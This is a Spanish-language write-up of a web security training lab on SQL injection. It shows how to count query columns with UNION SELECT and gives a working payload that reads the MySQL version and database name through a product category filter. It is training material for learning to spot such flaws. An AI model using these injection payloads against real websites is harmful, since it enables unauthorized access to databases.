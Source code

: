 # 04 Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

Objetivo

```bash
This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.
```

## Solución

> Podemos usar `'+UNION+SELECT+'abc','def'#` para añadir texto directamente al utilizar consultas UNION
> 

Debemos verificar cuantas columnas nos va a devolver nuestra query, podemos utilizar `UNION SELECT ‘TEXT1’, ‘TEXT2, ‘TEXT3'#`  sI vemos que nos muestra error 500, significa que la consulta original no tiene esa cantidad de columnas

![image.png](04%20Lab%20SQL%20injection%20attack,%20querying%20the%20database%2017efab5460ec81809f19e46145d70d0c/image.png)

Utilizamos el siguiente payload para que nos muestre la versión de la BD y el nombre de la BD

```jsx
Payload: '+UNION+SELECT+@@version,DATABASE()#
GET /filter?category=Lifestyle'+UNION+SELECT+@@version,DATABASE()#
```

![image.png](04%20Lab%20SQL%20injection%20attack,%20querying%20the%20database%2017efab5460ec81809f19e46145d70d0c/image%201.png)

![image.png](04%20Lab%20SQL%20injection%20attack,%20querying%20the%20database%2017efab5460ec81809f19e46145d70d0c/image%202.png)

![image.png](04%20Lab%20SQL%20injection%20attack,%20querying%20the%20database%2017efab5460ec81809f19e46145d70d0c/image%203.png)